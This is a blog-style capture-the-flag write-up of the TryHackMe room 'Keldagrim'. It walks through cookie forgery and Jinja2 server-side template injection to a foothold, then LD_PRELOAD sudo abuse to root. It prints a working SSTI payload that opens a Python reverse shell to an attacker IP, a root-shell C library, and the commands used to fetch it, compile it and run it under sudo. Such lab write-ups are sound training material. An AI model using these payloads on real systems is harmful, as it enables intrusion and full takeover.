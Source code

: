 ```yaml
---
layout: post
title:  "THM: Keldagrim"
date:   2021-02-03 20:00:00 +1100
category: hacking
---
```


## Keldagrim
*The dwarves are hiding their gold!*

This is [Keldagrim](https://tryhackme.com/room/keldagrim) from THM. It's medium rated and I liked it a lot.

## Ports
SSH and HTTP; that's it. We don't use SSH, this is 100% web.

## HTTP
It's a pretty simple website, about selling gold in Runescape and other MMOs (I think). There is a link we can't immediately access at */admin*. Dirsearch doesn't find any links that aren't easily found from the homepage.

Inspecting our request and response, we have a cookie:

>session=Z3Vlc3Q=; Path=/

If we decode the session value, we get: *guest*

If we set the cookie to *admin* (base64 encoded is *YWRtaW4=*), we can access the */admin* page. Nice. We get a new cookie:

>sales=JDIsMTY1

This decodes to: *$2,165*

I got stuck at this point for hours. I should also mention that the Server header was:

>Server: Werkzeug/1.0.1 Python/3.6.9

I tried SQLi in the URL and cookies. I tried fuzzing for hidden parameters. I tried fuzzing for hidden directories. I tried searching for a Werkzeug console.

I could see the server was base64 decoding whatever cookie value I set for *sales*, so I tried getting a command injection. Nada. 

## Progress
The only error I would occasionally manage to prompt was a 500 error. Specifically:

{% highlight html %}
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
{% endhighlight %}

Googling this error, I found it was a *Flask* error. This made sense with *Werkzeug*. This led me to [this](https://book.hacktricks.xyz/pentesting/pentesting-web/flask), and I quote:

>Probably if you are playing a CTF a Flask application will be related to SSTI.

WTF is SSTI? I've never heard of it - down the rabbit hole we go!

## SSTI
This was a very [useful link](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). 

>A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

So it is command injection via the *sales* cookie; we just need the right syntax. And we need to figure out which *template engine* we were using. 

Next was a visit to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) where some research revealed we were most likely dealing with *Jinja2*. I tried some payloads:

{% raw %}
{{4*4}}[[5*5]]  
{{7*'7'}} would result in 7777777  
{{config.items()}}
{% endraw %}

Note these all needed to be base64 encoded first. Thanks to [CyberChef](https://gchq.github.io/CyberChef).

Many of the examples on Payloads didn't seem to work, but enough did that it seemed like I was on the right track. There was code for a reverse shell, and with some slight modification:

{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.9.10.123\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}

After base64 encoding, I got a shell! I did a happy dance :)

## Privesc
Privesc was comparatively quick, but again a new one for me at least.

Linpeas points the way, and [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation#ld_preload) draws the map. This is the setup:

{% highlight html %}
jed@keldagrim:/dev/shm$ sudo -l     
sudo -l
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
{% endhighlight %}

The important part is *env_keep+=LD_PRELOAD* along with something we can run as sudo. It doesn't matter what, and PS by itself doesn't lead directly to a shell. We need this:

{% highlight c %}
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
{% endhighlight %}

I create it on my box and copy it over:

{% highlight shell %}
jed@keldagrim:/tmp$ wget http://10.9.10.123:8000/pe.c
wget http://10.9.10.123:8000/pe.c
--2021-02-03 09:31:19--  http://10.9.10.123:8000/pe.c
Connecting to 10.9.10.123:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 163 [text/x-csrc]
Saving to: ‘pe.c’

pe.c                100%[===================>]     163  --.-KB/s    in 0s      

2021-02-03 09:31:20 (7.71 MB/s) - ‘pe.c’ saved [163/163]
{% endhighlight %}

I compile it per the instructions; it threw a few warnings but they don't matter. Command was:

``
jed@keldagrim:/tmp$ gcc -fPIC -shared -o pe.so pe.c -nostartfiles
``

The escalation was supposed to be:

``
jed@keldagrim:/tmp$ sudo LD_PRELOAD=pe.so ps
``

But this threw an error:

>ERROR: ld.so: object 'pe.so' from LD_PRELOAD cannot be preloaded (cannot open shared object file): ignored.

Essentially, the 'pe.so' can't be found. We need to specify the path:

{% highlight shell %}
jed@keldagrim:/tmp$ sudo LD_PRELOAD=/tmp/pe.so ps
sudo LD_PRELOAD=/tmp/pe.so ps
root@keldagrim:/tmp# cd /root
root@keldagrim:/root# id;hostname
id;hostname
uid=0(root) gid=0(root) groups=0(root)
keldagrim
{% endhighlight %}

I liked this one a lot. Thanks [optional](https://tryhackme.com/p/optional).
